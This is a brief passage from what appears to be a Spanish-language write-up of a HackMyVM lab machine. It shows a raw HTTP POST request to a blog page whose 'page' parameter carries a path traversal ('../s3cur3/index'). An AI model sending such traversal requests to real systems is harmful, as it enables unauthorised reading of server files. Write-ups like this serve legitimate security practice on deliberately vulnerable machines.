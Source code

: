 ![Write-up Image](images/Screenshot_17.png)

Esta es la petición.
```console
POST /blog.php?page=../s3cur3/index HTTP/1.1

Host: juggling.hmv

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

DNT: 1

Connection: close

Cookie: PHPSESSID=4ajhivjf71a1r3kb4h3obnchmh

Upgrade-Insecure-Requests: 1

Priority: u=0, i

Content-Type: application/x-www-form-urlencoded

```